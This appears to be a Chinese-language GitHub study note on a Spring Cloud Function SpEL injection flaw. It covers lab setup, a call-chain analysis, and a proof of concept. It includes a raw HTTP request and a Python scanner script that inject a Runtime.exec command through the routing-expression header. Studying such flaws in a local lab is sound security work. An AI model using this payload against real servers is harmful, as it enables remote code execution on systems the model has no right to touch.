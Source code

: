 # SPeL-injection-study

共分为环境搭建及漏洞复现、原理学习、POC编写三部分

一、环境搭建

IDEA新建spring initializr

![图片](https://user-images.githubusercontent.com/90664154/164909353-8e59c6c2-b38d-4bdb-8dcf-251abfb2dde3.png)
![图片](https://user-images.githubusercontent.com/90664154/164909361-5067e7e9-1afa-477a-a581-d8811f7b4cb6.png)
![图片](https://user-images.githubusercontent.com/90664154/164909390-ef235ebe-5f69-4004-ac6a-14c1746dd062.png)
这里生成jar包
![图片](https://user-images.githubusercontent.com/90664154/164909399-52db580e-c85e-46aa-96aa-6aa7996a9393.png)

在终端安装jdk11

java -jar jojoSPeL-0.01-SNAPSHOT.jar  部署jar包

![图片](https://user-images.githubusercontent.com/90664154/164909424-929dd7da-900d-44bb-923c-d9d5b22f5f4a.png)

访问127.0.0.1:8080验证
![图片](https://user-images.githubusercontent.com/90664154/164909431-224e18e6-e58e-4613-abd9-84087e0db1f7.png)

发送POC验证
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

jojo

![图片](https://user-images.githubusercontent.com/90664154/164909439-3dd2662e-1eb7-4231-8ec6-95a7f2a262eb.png)

二、漏洞分析
header头的spring.cloud.function.routing-expression参数调用链：
org.springframework.cloud.function.web.mvc.FunctionController中,
body-> processReques(RoutingFunction)-> FunctionInvocationWrapper.apply-> doApply-> RoutingFunction(apply)-> org.springframework.cloud.function.context.config.RoutingFunction(route)-> this.functionFromExpression()，最终执行，这其中的安全过滤函数不充分
![图片](https://user-images.githubusercontent.com/90664154/164909446-6745d62c-4204-4b51-8efe-f792e9893166.png)

三、Poc编写
# coding=UTF-8
import requests
import sys
import base64
import urllib3
urllib3.disable_warnings()

def calculator(url,ip,port):

    payload ='T(java.lang.Runtime).getRuntime().exec("calc")'

    data ='jojo'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    path = '/functionRouter'

    allurl = url + path
    try:
        req=requests.post(url=allurl,headers=headers,data=data,verify=False,timeout=3)
        code =req.status_code
        text = req.text
        rsp = '"error":"Internal Server Error"'

        if code == 500 and rsp in text:
            print('{url} 存在漏洞')
        else:
            print('{url} 不存在漏洞')

    except requests.exceptions.RequestException:
        print('[-]{url} 检测超时')
        pass
    except:
        print('[-]{url} 检测异常')
        pass



if __name__ == '__main__' :
    try:
        cmd1 =sys.argv[1]
        cmd2 =sys.argv[2]
        cmd3 =sys.argv[3]
        calculator(cmd1,cmd2,cmd3)
    except:
        print('python jojoSPel.py url ip port')
        pass
